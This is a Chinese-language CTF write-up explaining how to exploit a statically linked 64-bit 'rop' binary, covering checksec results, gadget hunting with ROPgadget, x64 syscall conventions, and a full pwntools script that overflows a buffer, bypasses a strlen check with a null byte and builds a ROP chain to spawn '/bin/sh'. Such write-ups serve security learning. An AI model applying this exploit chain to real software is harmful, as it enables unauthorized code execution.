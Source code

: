 ```yaml
---
title: "解 ROP 之工具與詳細流程"
date: 2020-02-17T13:37:01+08:00
draft: false
tags: ["CTF", "pwn"]
categories: ["CTF pwn"]
---
```


# ROP writeup

## checksec rop

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## file rop

```
rop: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=6608f6b8f49633b8d8248f7665b6ba35659a595a, not stripped
```

## 線索1：statically linked

**動態連結**是當程式執行時，才會去 library binding (.so 或 .dll) <br>
**靜態連結**是指程式在連結階段時，就會將使用到的函式一併放入執行檔

| 比較         | 動態連結     | 靜態連結     |
| ------------ | ------------ | ------------ |
| 連結 library | runtime 階段 | linking 階段 |
| 連結方式     | 建立 GOT 表    | 與執行檔合併 |
| 檔案大小     | 較小         | 較大         |
| libray 檔案類型    |  .so 或 .dll | .a 或 .lib  |

因此我們可使用 **ROPgadget** 在此ELF找出 ROP gadget，來取得 執行權限
```
ROPgadget --binary rop | grep "正規表達式"
```
補充： `grep` 是屬於 BRE 派系，使用正規表達式時，須跳脫字元。


## 線索2：NX is enabled
```
* NX 若關閉，則可寫入 shellcode
* NX 若開啟，則可透過 ROP chain 技巧執行 shell
```

因為 NX 是開啟的，也就是說 data 段是沒有執行能力的。 
因此我們無法使用 shellcode 寫入 data 段，直接執行 shell

然而，我們可以使用 ROP 技巧來執行 shell
我們可透過 `readelf -S 檔案` 指令得知 data段 是可寫入資料的。


### 如何找 data section 位址？
使用 `readelf -S filename` 指令可查看所有 section 的位址
我們只需看 data section的部份即可 <br>

data區段雖然在此程式無法執行，但可寫入 `"/bin/sh"`字串作為納入 shell 參數的暫存區塊
```
readelf -S rop
```
或是
```
readelf -S rop | grep ".data"
```
即可知道 `0x6ca080` 是 data section 位址

![](https://i.imgur.com/b4Z45tn.png)

## 線索3： No canary

使用 r2 反組譯後由於 read 最多可以讀取 0xc8 (200) 個字元，
且輸入到的 local buffer 大小只有 32 bytes，
因此可使用 bof (buffer overflow) 技巧來建立 ROP chain。

![](https://i.imgur.com/Njh4RK9.png)


另外必須要注意，輸入字串後仍會檢查字串長度是否小於等於 32 個，
必須在輸入30個bytes大小的字串後，額外加入 空字元，繞過strlen()的超過長度的判斷，才繼續接 ROP chain

![](https://i.imgur.com/mOn49l6.png)


## ROP chain
ROP = Return Oriented Programming

顧名思義，就是利用 結尾有 ret 的 gadgets (一小段 x86 組語)，繞過 NX 的保護機制，來湊成我們想要做的事情。

對於 pwn ，我們就是希望可以透過 ROP chain 湊成 `execve("/bin/sh", 0, 0)`，來取得執行 shell 的系統權限。

另外，在撰寫 ROP 時，必須確認該 ELF 是 x86 還是 x64，因為 兩者的 system call 的呼叫（傳參）方式不同

* [參考x64 system call](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

### x64呼叫慣例

```
rdi: 第一個參數存放的暫存器
rsi: 第二個參數存放的暫存器
rdx: 第三個參數存放的暫存器
```

舉例來說，呼叫 `execve("/bin/sh", 0, 0)` <br>
暫存器會呈現
```
rax = 0x3b (system call 的編號)
rdi = address of "/bin/sh"
rsi = 0x0
rdx = 0x0
```
只要透過 ROP 將這些暫存器改成上述的值，chain結尾再呼叫 syscall，此程式在overflow之後就會執行 shell 了。

## 解法
```python=
from pwn import *

r = process("./rop")
data_sec = 0x06ca080
gadget1 = 0x04014f6 # pop rdi ; ret
gadget2 = 0x0401617 # pop rsi ; ret
gadget3 = 0x047a712 # mov qword ptr [rdi], rsi ; ret
gadget4 = 0x0442a19 # pop rdx ; pop rsi ; ret
gadget5 = 0x044f6cc # pop rax ; ret
syscall = 0x04003da

rop =  p64(gadget1) + p64(data_sec)
rop += p64(gadget2) + "/bin/sh\x00"
rop += p64(gadget3)
rop += p64(gadget4) + p64(0x0)*2
rop += p64(gadget5) + p64(0x3b) 
rop += p64(syscall)

r.recvuntil("\n")
r.send('a'*30+'\x00'+'a'*9 + rop)

r.interactive()
```
